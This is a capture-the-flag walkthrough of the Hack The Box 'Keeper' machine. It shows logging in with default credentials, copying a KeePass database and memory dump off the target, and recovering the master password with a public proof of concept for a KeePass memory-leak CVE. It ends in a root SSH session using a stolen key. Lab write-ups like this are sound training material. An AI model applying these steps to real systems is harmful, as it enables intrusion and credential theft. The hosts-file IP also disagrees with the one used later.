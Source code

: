 ```yaml
---
Title: Keeper HTB
---
```


### Rating: Easy
### OS: Linux

We'll start with a basic nmap scan across all ports:
```bash

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The base web page has this link, the URL is redirecting to:
`http://tickets.keeper.htb/rt/`

![Keeper Web Page](https://github.com/voided323/skills-github-pages/blob/main/_posts/Images/Keeper_HTB/Screenshot_2025-01-31_01-06-23.png?raw=true)

I'll dump the domain name into the `/etc/hosts` file:
`110.10.11.227    tickets.keeper.htb keeper.htb`

![Keeper Ticket Page](https://github.com/voided323/skills-github-pages/blob/main/_posts/Images/Keeper_HTB/Screenshot_2025-01-31_01-12-34.png?raw=true)

We can sign in using the default credentials of `root` and `password`
Checking through the tickets, there's one open about a KeePass issue on the users Windows box

![Open_Ticket](https://github.com/voided323/skills-github-pages/blob/main/_posts/Images/Keeper_HTB/Open_Tickets.png?raw=true)

Some further poking around, we can see that the user Inorgaard has their user password in the profile:

![Inorgaard user](https://github.com/voided323/skills-github-pages/blob/main/_posts/Images/Keeper_HTB/Inorgaard.png)

Once we're on this box, we'll grab two files that were alluded to in the ticket:
```bash
lnorgaard@keeper:~$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.14.37 - - [31/Jan/2025 08:31:03] "GET /passcodes.kdbx HTTP/1.1" 200 -
10.10.14.37 - - [31/Jan/2025 08:31:08] "GET /passcodes.kdbx HTTP/1.1" 200 -
10.10.14.37 - - [31/Jan/2025 08:31:26] "GET /KeePassDumpFull.dmp HTTP/1.1" 200 -
```

A quick google on KeePass memory leak shows a common CVE from back in 2023.
I'll grab this Python3 PoC designed for the CVE and run it against the crash file we received:
https://github.com/z-jxy/keepass_dump

```bash
└─$ python3 keepass_dump.py -f KeePassDumpFull.dmp --recover --debug -o out.txt
[*] Searching for masterkey characters
[-] Couldn't find jump points in file. Scanning with slower method.
---snip---
[*] 10000000 bytes since last found. Ending scan.
[*] 0:  {UNKNOWN}
[*] 2:  d
[*] 3:  g
[*] 4:  r
[*] 6:  d
[*] 7:   
[*] 8:  m
[*] 9:  e
[*] 10: d
[*] 11:  
[*] 12: f
[*] 13: l
[*] 15: d
[*] 16: e
[*] Extracted: {UNKNOWN}dgrd med flde
[?] Recovering...
[-] Couldn't verify plaintext match in dump for: dgrd med flde
[*] Saved 1 combinations to out.txt
``` 

The string doesn't make much sence, but I'll copy it into Google to see other common references.
We get a close match to a Danish red berry pudding (I'm assuming our compromised RT name is also Danish).
`Rødgrød med fløde` 

I'll use this as the Master Password to access the passcode database that we copied before and get access.

Under the Network folder, we have an entry for `keeper.htb (Ticketing Server)` that has an SSH RSA key in the comments.
I'll save this to a file on my machine, and use that along with the password to try get a root session to the box

Before we can do this, we'll need to convert the key from the PuttyGen format to OpenSSH:
`puttygen puttyKey.ppk -O private-openssh -o privKey` 

Now we can use it to establish our connection:

```bash
└─$ ssh -i privKey root@10.10.11.227 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# whoami
root
root@keeper:~# cat /root/root.txtbash
```
